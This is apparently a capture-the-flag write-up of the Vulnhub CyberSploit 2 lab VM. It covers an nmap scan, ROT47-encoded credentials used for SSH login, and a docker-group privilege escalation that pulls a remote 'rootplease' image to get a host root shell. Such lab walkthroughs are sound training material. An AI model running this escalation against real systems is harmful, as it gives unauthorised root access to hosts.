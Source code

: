 ```yaml
---
title: Vulnhub - CyberSploit 2
description: My writeup on CyberSploit 2 box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://www.ubackground.com/_ph/11/175205427.jpg)

Hi all, that was a really silly box. Let's pwn it!

You can find the machine there > [CyberSploit 2](https://www.vulnhub.com/entry/cybersploit-2,511/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.19
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 00:04 EEST
Nmap scan report for 192.168.1.19 (192.168.1.19)
Host is up (0.00029s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:56:84:35 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.01 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 00:09 EEST
Nmap scan report for 192.168.1.19 (192.168.1.19)
Host is up (0.00043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CyberSploit2
MAC Address: 00:0C:29:56:84:35 (VMware)
```

## Decoding ROT47 - shell as shailendra

Website has some usernames/passwords:

![](https://i.imgur.com/W7rQkbp.png)

We can see 2 weird strings -> D92:=6?5C2 - 4J36CDA=@:E` that's ROT47 let's decode them using [cyberchef](https://gchq.github.io/CyberChef/)

D92:=6?5C2 -> shailendra

4J36CDA=@:E` -> cybersploit1

Tried them with SSH & i got in! `shailendra:cybersploit1`:

```
$ ssh shailendra@$ip
[shailendra@192 ~]$ whoami
shailendra
```

## shailendra -> root

Now privesc is simple user is member of docker group:

```
[shailendra@192 ~]$ id
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker)
```

Let's get root shell:

```
shailendra@192 ~]$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
a4a2a29f9ba4: Downloading [===================>                               ]  10.86MB/28.56MB
127c9761dcba: Download complete 
d13bf203e905: Download complete                                                                                                                                                         a4a2a29f9ba4: Pull complete 
127c9761dcba: Pull complete 
d13bf203e905: Pull complete 
4039240d2e0b: Pull complete 
16a91ffa6f29: Pull complete 
Digest: sha256:eb6be3ee1f9b2fd6e3ae6d4fda81a80bfdf21aad9bde6f1a5234f1baa58d4bb3
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
sh-4.4# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Now let's read the flag:

```
sh-4.4# cat flag.txt 
 __    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
```

Meme :P

